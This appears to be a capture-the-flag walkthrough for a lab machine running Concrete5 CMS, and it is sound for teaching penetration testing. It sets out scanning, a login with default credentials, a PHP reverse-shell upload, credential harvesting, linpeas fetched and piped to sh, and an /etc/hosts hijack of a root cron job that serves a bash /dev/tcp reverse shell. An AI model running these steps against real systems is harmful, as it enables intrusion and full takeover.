 # How to access the admin panel
Scan the website using nmap.
```BASH
nmap -sV VICTIM_IP_ADDRESS
```
Nmap reveals that port 85 is open.

![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


Run Gobuster after completing the Nmap scan. The results reveal the `/app` directory.
```BASH
gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64
```
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect.

![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in `/config`, which will be useful later.

![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS.

![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types.

![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell.

![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file.
```BASH
http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php
```

## On the attacker's machine
Start a listener.
```BASH
nc -lvnp 4444
```

Go back to browser and in the new tab go to:
```BASH
http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php
```

Once the shell is triggered, upgrade the session.
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:

![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user.
```BASH
su toad
``` 
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:

![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)  

Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag.

![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)  

Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	[linpeas.sh](http://michalszalkowski.com/security/linpeas/)
2.	[Documentation](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## On the attacker's machine
Download linpeas.sh.
```BASH
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh
```

Start a local HTTP server.
```BASH
sudo python3 -m http.server 9000
```

## On the victim machine
Download and run linpeas.sh.
```BASH
curl <attacker_machine_ip_adress>/linpeas.sh | sh
```

During the scan we can see that `/etc/hosts` is writable.

![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute:
```BASH
curl mkingdom.thm:85/app/castle/application/counter.sh
```

To redirect mkingdom.thm to the attacker's IP.
```BASH
echo "ATTACKER_IP_ADDRESS   mkingdom.thm" >> /etc/hosts
```

However, this alone doesn't work, because cron still resolves to 127.0.1.1:

![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually.
```BASH
cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

ATTACKER_IP_ADDRESS    mkingdom.thm
EOF
```

Copy custom `/tmp/hosts_fixed` file and overwrite the system’s `/etc/hosts` file with it.
```BASH
cp /tmp/hosts_fixed /etc/hosts
```

As shown below, the cron job is configured to reach the attacker's machine.

![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On the attacker's machine
Create the folder structure.
```BASH
mkdir -p app/castle/application
cd app/castle/application
```

After that, create counter.sh.
```BASH
cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
```

Lastly change permission to executable.
```BASH
chmod +x counter.sh
```

Full process:

![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
```BASH
python3 -m http.server 85
```
```BASH
nc -lvnp 4444
```

Wait for cron to trigger.

![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Get reverse shell as root.

![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag.

![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)
